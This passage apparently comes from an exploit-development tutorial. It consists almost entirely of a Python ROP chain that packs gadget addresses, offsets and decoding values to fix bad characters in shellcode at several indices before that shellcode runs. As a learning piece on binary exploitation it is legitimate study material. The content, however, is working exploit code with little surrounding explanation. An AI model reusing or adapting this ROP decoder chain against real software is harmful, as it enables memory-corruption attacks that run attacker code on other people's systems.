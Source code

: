 Now the full gadget to decode all bad characters, Would be as the following:

```python
# Decode bad character at index 193
ROPDecoder = pack("<L", 0x5050118e) # mov eax, esi ; pop esi ; ret  ;
ROPDecoder += pack("<L", 0x41414141) # dummy value for pop esi
ROPDecoder += pack("<L", 0x5052db24) # pop ecx ; ret  ;
ROPDecoder += pack("<L", negative_offset_value_to_shellcode)
ROPDecoder += pack("<L", 0x50533bf4) # sub eax, ecx ; ret  ; add the offset to eax
ROPDecoder += pack("<L", 0x505263f9) # push eax ; pop esi ; pop ebx ; ret  ; get back the pointer to ESI
ROPDecoder += pack("<L", 0x41414141) # dummy value for pop ebx
ROPDecoder += pack("<L", 0x5053a0f5) # pop eax ; ret  ;
ROPDecoder += pack("<L", decoding_value)
ROPDecoder += pack("<L", 0x5050626e) # add byte [esi+0x3B], ah ; ret  ; decode the bbad character

# Decode bad char at index 181
ROPDecoder += pack("<L", 0x5050118e) # mov eax, esi ; pop esi ; ret  ;
ROPDecoder += pack("<L", 0x41414141) # dummy value for pop esi
ROPDecoder += pack("<L", 0x5052db24) # pop ecx ; ret  ;
ROPDecoder += pack("<L", 0xfffffff4) # offset to bad char at index 181
ROPDecoder += pack("<L", 0x5051579a) # add eax, ecx ; ret  ; Make eax point to the badchar to decode
ROPDecoder += pack("<L", 0x505263f9) # push eax ; pop esi ; pop ebx ; ret  ; get back the pointer to ESI
ROPDecoder += pack("<L", 0x41414141) # dummy value for pop ebx
ROPDecoder += pack("<L", 0x5053a0f5) # pop eax ; ret  ;
ROPDecoder += pack("<L", 0x05050505) # decoding value
ROPDecoder += pack("<L", 0x5050626e) # add byte [esi+0x3B], ah ; ret  ; decode the bad character
    


# Decode bad char at index 169
ROPDecoder += pack("<L", 0x5050118e) # mov eax, esi ; pop esi ; ret  ;
ROPDecoder += pack("<L", 0x41414141) # dummy value for pop esi
ROPDecoder += pack("<L", 0x5052db24) # pop ecx ; ret  ;
ROPDecoder += pack("<L", 0xfffffff4) # offset to bad char at index 169
ROPDecoder += pack("<L", 0x5051579a) # add eax, ecx ; ret  ; Make eax point to the badchar to decode
ROPDecoder += pack("<L", 0x505263f9) # push eax ; pop esi ; pop ebx ; ret  ; get back the pointer to ESI
ROPDecoder += pack("<L", 0x41414141) # dummy value for pop ebx
ROPDecoder += pack("<L", 0x5053a0f5) # pop eax ; ret  ;
ROPDecoder += pack("<L", 0x05050505) # decoding value
ROPDecoder += pack("<L", 0x5050626e) # add byte [esi+0x3B], ah ; ret  ; decode the bad character
    


# Decode bad char at index 145
ROPDecoder += pack("<L", 0x5050118e) # mov eax, esi ; pop esi ; ret  ;
ROPDecoder += pack("<L", 0x41414141) # dummy value for pop esi
ROPDecoder += pack("<L", 0x5052db24) # pop ecx ; ret  ;
ROPDecoder += pack("<L", 0xffffffe8) # offset to bad char at index 145
ROPDecoder += pack("<L", 0x5051579a) # add eax, ecx ; ret  ; Make eax point to the badchar to decode
ROPDecoder += pack("<L", 0x505263f9) # push eax ; pop esi ; pop ebx ; ret  ; get back the pointer to ESI
ROPDecoder += pack("<L", 0x41414141) # dummy value for pop ebx
ROPDecoder += pack("<L", 0x5053a0f5) # pop eax ; ret  ;
ROPDecoder += pack("<L", 0x05050505) # decoding value
ROPDecoder += pack("<L", 0x5050626e) # add byte [esi+0x3B], ah ; ret  ; decode the bad character
    


```